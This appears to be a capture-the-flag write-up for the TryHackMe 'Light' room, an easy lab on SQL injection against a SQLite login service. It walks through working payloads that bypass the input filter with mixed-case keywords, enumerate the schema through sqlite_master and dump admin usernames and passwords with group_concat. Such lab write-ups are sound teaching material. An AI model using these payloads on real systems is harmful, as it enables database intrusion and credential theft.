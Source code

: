 # Light

<br>

<p align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1737140605838" width="200">
</p>

> *Welcome to the Light database application!*

<br>

## 🧠 Intro
Welcome to **Light**, a short and clever room focused on **SQL Injection (SQLi)** and database misconfigurations. We’ll dig into some manual SQLi and bypass filters to uncover secrets hidden in plaintext. 

*Deploy the machine and let’s shine some light on this challenge.* 💡

<br>

## 🎯 Task
To pwn this room, we need to:

- Find the **username** and **password** of the **admin** user.
- Capture the **flag**.

<br>

## 🔍 Recon
The room description hints at connecting to the machine via netcat on port `1337`.

```bash
nc MACHINE_IP 1337
```

![Light_x](src/Light_x)

We're greeted by a minimal login interface. We try logging in with:

> Username: `smokey`

The server responds with the corresponding password—but doesn’t actually log us in. Strange. Seems like we’re just querying the database and getting a response.

Time to test for SQL injection. 😈

<br>

## 🧪 Exploitation (SQLi)

We start simple with the classic:

```sql
' OR 1=1 --
```

But the server blocks us:

> *"For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)"*

Okay, so comments and certain keywords are filtered. Let’s try without the comment:

```sql
' OR 1=1
```

And now we get:

> *"Error: unrecognized token: "''' LIMIT 30""*

Looks like an issue with unmatched quotes. So we try:

```sql
' OR '1=1
```

Success! We get this as response:

> *Password:

This confirm that SQLi works. Now let’s go deeper. We need to find out what DBMS we're dealing with.

We suspect it's **SQLite** (given the name *Light*), so we try this payload:

```sql
' UNION SELECT sqlite_version() '
```

...but the server complains:

> *"Ahh there is a word in there I don't like :("*  

Looks like keywords are filtered in uppercase. What if we capitalize?

```
' Union Select sqlite_version() '
```

Boom. This works—we get:

> *Password: 3.31.1*

So we’re dealing with SQLite 3. Nice.

Now, let’s enumerate the schema via the `sqlite_master` table:

```sql
' Union Select sql From sqlite_master '
```

This returns the table schema:

> `CREATE TABLE admintable (username TEXT, password TEXT)`

Perfect. Now let’s extract the data.

To list usernames:

```sql
' Union Select group_concat(username) From admintable '
```

Result:

![Light_x](src/Light_x.png)

Then for passwords:

```sql
' Union Select group_concat(password) From admintable '
```

And we get:

![Light_x](src/Light_x.png)

Mission complete. 🎯

<br>

## 🏁 Got the Flag
On the admintable table, we find the username, the password and the flag.

```
flag{go_get_it}
```

*Straight from the shadows into the light.* 🕶️💡

<br>

## 🎯 Notes
This room shows how powerful SQL injection can be even in very restricted environments. Filter bypassing, capitalization tricks, and knowledge of DBMS behavior are all key tools when digging into databases.

*Keep it light—but thorough.* 😉

<br>

## 🏠 Room Info
- 🧩 [TryHackMe - Light](https://tryhackme.com/room/lightroom)
- 🏷️ Difficulty: Easy
- 🧠 Focus: SQLi (SQL Injection)
